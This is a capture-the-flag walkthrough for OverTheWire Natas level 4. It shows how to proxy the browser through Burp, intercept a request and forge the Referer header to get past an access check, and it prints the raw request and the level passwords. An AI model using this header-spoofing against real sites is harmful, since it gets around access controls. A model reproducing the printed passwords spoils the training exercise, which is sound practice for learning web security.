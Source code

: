 
## Natas Level 3 → Level 4 `use brup to intercept request, update Referer url.`

> Solution: intercept the packet, change the referrer url

Username: natas4
URL:      http://natas4.natas.labs.overthewire.org
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

- “HTTP Referrer”.
    - set up firefox and brup
    - making sure proxy is set up for localhost @ 127.0.0.1.
        - Brup:
        - Proxy > Option >
    - set up Firefox network settings
        - allow Firefox to localhost proxy.
        - Menu > Preferences > Advanced > Network > Connection Settings > `Manual proxy configuration: HTTP Proxy: 127.0.0.1 Port:8080`

```html
"Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/""
--------------------------------------------------------
goto http://natas4.natas.labs.overthewire.org/
press Refresh page
--------------------------------------------------------
brup > proxy > intercept > Raw:

GET / HTTP/1.1
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Connection: close
# add this line
Referer: http://natas5.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
--------------------------------------------------------

"Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq"
```

Note: Once done, go back to Network Settings and select “Use System Proxy Settings” so you can have a normal connection, without it routing through Burp.

---

## Natas Level 4 → Level 5
